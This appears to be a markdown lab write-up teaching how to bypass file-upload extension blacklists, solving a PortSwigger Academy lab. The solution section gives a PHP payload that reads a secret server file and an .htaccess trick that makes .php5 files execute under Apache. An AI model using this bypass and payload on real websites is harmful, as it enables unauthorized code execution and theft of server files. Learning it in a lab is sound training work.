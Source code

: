 # File Uploads: Insufficient blacklisting

## Introduction

One common defense against malicious uploads is blacklisting certain file types or extensions. However, this method can be insufficient, as attackers often find ways to bypass these restrictions. Understanding the limitations of blacklisting is crucial for improving the security of file upload functionalities.


## Table of Contents

- [File Uploads: Unrestricted File Uploads!](#file-uploads-unrestricted-file-uploads)
  - [Introduction](#Introduction)
  - [Table of Contents](#table-of-contents)
  - [How to identify](#how-to-identify)
  - [Code/tools/websites](#codetoolswebsites)
    - [Tools](#tools)
    - [Websites](#websites)
  - [Sample problem](#sample-problem)
    - [Problem Statement](#problem-statement)
    - [Solution](#solution)
  - [References](#references)
  - [Conclusion](#conclusion)


## How to identify

One of the more obvious ways of preventing users from uploading malicious scripts is to blacklist potentially dangerous file extensions like .php. The practice of blacklisting is inherently flawed as it's difficult to explicitly block every possible file extension that could be used to execute code. Such blacklists can sometimes be bypassed by using lesser known, alternative file extensions that may still be executable, such as .php5, .shtml, and so on. 

**Upload Section** :
Any type of upload can possibly have a upload vulnerability. Make sure you remember this when you encounter a upload section in real life.



## Code/tools/websites

### Tools
- **Burp Suite:** A web vulnerability scanner with tools for manual testing.

### Websites
> https://portswigger.net/web-security/file-upload
> https://ctf.hackthebox.com/ 


## Sample problem

### Problem Statement
 This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this defense can be bypassed due to a fundamental flaw in the configuration of this blacklist.. 


- [Link to the Problem](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)

### Solution
Here we have a upload section under My Accounts tab to upload the Avatar.
We use burpsuite proxy here to interupt the Requests. 

- **Initial Request for JPG**:
The Content-Type response header may provide clues as to what kind of file the server thinks it has served. If this header hasn't been explicitly set by the application code, it normally contains the result of the file extension/MIME type mapping. 
  ```
  Content-Disposition: form-data; name="avatar"; filename="filename.jpg"
  Content-Type: image/jpeg
  ``` 

- **Restriction with Blacklisting**:
This time when we try to upload this exploit directly...
  ```php
   <?php echo file_get_contents('/home/carlos/secret'); ?>
  ```
   We are not able to do so...

- **The difference**:
 Here we change the Content-Type to text/plain in burpsuite.
   ```
  Content-Disposition: form-data; name="avatar"; filename=".htaccess"
  Content-Type: text/plain
  ``` 
    and we add 
    ```  AddType application/x-httpd-php .php5 ``` so we can whitelist the .php5 extension with the apache server.

    So now we can just use the burpsuite to change the filename of exploit to exploit.php5
- **done**:
Now just use GET in the repeater in burpsuite to get the flag!!


## References

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/file-upload)


## Conclusion
In this section, we learnt how certain files are blacklisted and explored how to exploit a certain flaw in their mechanism
